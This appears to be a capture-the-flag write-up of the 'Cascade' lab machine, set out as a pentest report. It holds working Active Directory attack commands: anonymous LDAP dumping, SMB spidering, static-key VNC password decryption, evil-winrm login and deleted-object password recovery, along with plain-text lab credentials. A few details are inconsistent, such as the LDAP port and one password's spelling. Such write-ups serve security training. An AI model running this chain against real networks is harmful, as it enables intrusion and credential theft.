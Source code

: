 # Table of Contents
* **Executive Summary**
	* Summary of results
* **Attack Path**
	* LDAP discovery and enumeration
	* Authenticated SMB enumeration
	*  Lateral movement to interactive shell
	* Administrative Privilege Escalation
	* Escalation to Domain Administrator
* **Conclusion**
	* Recommendation
	* Risk Rating
* **Appendix: Vulnerability Detail and Mitigation**
	* Unauthenticated LDAP enumeration
	* Password attributes field in LDAP
	* User Access control
	* Weak/Static Key Encryption
	* Password Reuse

# Executive Summary
### Summary of results

# Attack Path
## LDAP discovery and enumeration
Scanned the IP with nmap and discovered 13 open TCP ports. The automated scripts revealed the hostname of cascade.local.

Time ran: Fri Oct 28 23:31:06 2022
```bash
nmap 10.10.10.182 -sC -sV
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-10-28 12:31:16Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```
With LDAP open on port 2368 we checked if we could query LDAP.
```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts

Domain DC=cascade,DC=local
```
Proceeded to enumerate LDAP and gather usernames.
```bash
ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_anon

cat ldap_anon | grep sAMAccountName | awk -F": " '{print $2}' > usernames.ldap
```

Usernames.ldap
```txt
s.smith
r.thompson
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
j.allen
i.croft
```

Checked for any passwords stored within ldap by looking for unique values.
```bash
cat ldap_anon | sort | uniq -c | sort -nr
```

This revealed a cascadeLegacyPwd from r.thompson's user object
```base64
clk0bjVldmE=
```
Which when decoded is
```txt
rY4n53va
```

## Authenticated SMB enumeration
Listed all the files that r.thompson can view within smb
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```
This user can view a vnc install.reg file within another user's folder.

## Lateral movement to interactive shell
When viewing the file there is an encrypted password.
```bash
cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""

"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
Decrypting with the static key.
```ruby
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"  
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```

Plain text password of sT333ve2
Logging in with evil-winrm provides an interactive shell.

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p sT333ve2
```

## Administrative Privilege Escalation
We enumerated smb again with the new credentials and found a Audit$ drive, which has an executable. Reverse engineering the executable reveals the password `W3lc0meFr31nd` for the ArkSvc user which has administrator privileges.

## Escalation to Domain Administrator
The ArkSvc user is a member of the recycle bin group which can read files that have been deleted.

```powershell
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter
{ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```
There is a file that contains the password for tempadmin which is also the default admin password for the domain.
```
baCT3r1aN00dles
```

We then proceeded to login as the administrator account with winrm, which results in domain admin.

# Conclusion
## Recommendations
- Do not reuse passwords for admin accounts.
- Remove the cascadeLegacyPwd field from r.thompson and tempadmin from their AD objects
- Use a better vnc type as this one has a static password, so the encryption is useless.
- Do not have hard coded credentials for an encryption algorithm (Audit.exe)
- Why does s.smith need to be able to view the database?
- Have a stronger password policy and have rotations every 30 days.
- Disable winrm on all accounts that do not need it.

## Risk Rating
Overall there is a **high** risk identified from this report. There is a direct path for an external attacker to have full system compromise. There is very realistic that an malicious entity would be able to execute this attack through this attack chain. 